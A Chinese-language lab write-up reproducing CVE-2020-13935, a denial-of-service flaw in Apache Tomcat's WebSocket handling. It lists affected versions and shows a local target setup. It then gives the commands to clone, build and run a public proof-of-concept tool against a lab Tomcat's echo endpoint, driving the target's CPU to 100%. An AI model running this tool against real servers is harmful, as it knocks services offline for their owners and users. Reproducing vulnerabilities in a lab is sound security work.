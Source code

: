# 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs  
下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用，如examples/websocket

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
![image](./f.png)  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/
